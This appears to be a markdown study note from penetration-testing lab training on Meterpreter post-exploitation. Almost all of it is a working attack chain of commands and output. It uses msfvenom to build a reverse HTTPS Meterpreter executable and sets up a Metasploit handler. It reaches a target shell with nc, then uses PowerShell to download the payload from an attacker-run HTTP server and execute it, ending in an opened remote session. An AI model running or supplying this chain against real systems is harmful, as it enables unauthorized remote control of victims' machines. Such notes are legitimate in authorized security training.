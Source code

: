 ### Core Meterpreter Post-Exploitation Features 

Create a Windows executable with a Meterpreter reverse shell payload

`msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.4 LPORT=443 -f exe -o met.exe`

Launch multi/handler and set payload 

```
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_https
payload => windows/x64/meterpreter_reverse_https
```

Set listening port 

 ```
msf6 exploit(multi/handler) > set LPORT 443
```

Run 
```
msf6 exploit(multi/handler) > run
[*] Exploit running as background job 2.
[*] Exploit completed, but no session was created.

[*] Started HTTPS reverse handler on https://192.168.119.4:443
```

Start #pythonhttpserver to serve `met.exe`

Connect to target with nc 

```
kali@kali:~$ nc 192.168.50.223 4444
Microsoft Windows [Version 10.0.22000.795]
(c) Microsoft Corporation. All rights reserved.
```

Download and execute payload on target 

```hlt:1,8,11
C:\Users\dave> powershell
powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\dave> iwr -uri http://192.168.119.2/met.exe -Outfile met.exe
iwr -uri http://192.168.119.2/met.exe -Outfile met.exe

PS C:\Users\dave> .\met.exe
.\met.exe
```

After `met.exe` execution, receive reverse shell

```
[*] Meterpreter session 8 opened (192.168.119.4:443 -> 127.0.0.1) at 2022-08-04 06:41:29 -0400
meterpreter > 
```
